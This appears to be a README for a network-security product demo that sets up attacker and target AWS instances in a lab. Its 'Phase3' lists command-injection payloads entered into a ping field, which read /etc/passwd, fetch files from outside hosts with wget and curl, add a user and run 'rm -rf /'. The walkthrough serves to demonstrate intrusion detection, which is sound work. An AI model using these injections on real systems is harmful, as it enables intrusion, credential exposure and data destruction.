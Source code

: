 # Cloud One - Network Security Demo
Requirements:

-- AWS Account
-- NSVA Deployment (Terraform)
-- 2 Ubuntu Linux Instances
-- 1 Windows Instance

## Phase1 - Demo Preparation
- Create 2 new Linux Instances;
- The attacker instance must be placed in the same subnet of the bastion machine;
- The target instance must be placed in the workload subnet;
- On the Advanced Options field, paste the script attacker.sh and target.sh (1 script in each instance);

## Phase2 - Testing the Demo
- Connect on the Linux Instance where you executed the attacker script through http://public-ip

-- username: administrator 
-- password: password

- Connect on the Linux Instance where you executed the target script through http://private-ip (from the windows instance)

## Phase3 - Executing the Demo
- Command Injection Menu
-- Use the "Ping" field to execute the attacks below:
- 127.0.0.1| python http://target-ip/hello "command"
- 127.0.0.1| python exploit.py http://target-ip/hello "ls -la"
- 127.0.0.1| python exploit.py http://target-ip/hello "cat /etc/passwd"
- 127.0.0.1| python exploit.py http://target-ip/hello "wget http://2016.eicar.org/download/eicar.com"
- 127.0.0.1| python exploit.py http://target-ip/hello "curl http://wrs21.winshipway.com/"
- 127.0.0.1| python exploit.py http://target-ip/hello "adduser YouHaveBeenPwned"
- 127.0.0.1| python exploit.py http://target-ip/hello "ls -la"
- 127.0.0.1| python exploit.py http://target-ip/hello "rm -rf /"

## Phase3 - SMS/C1NS Logs
Check the logs

.

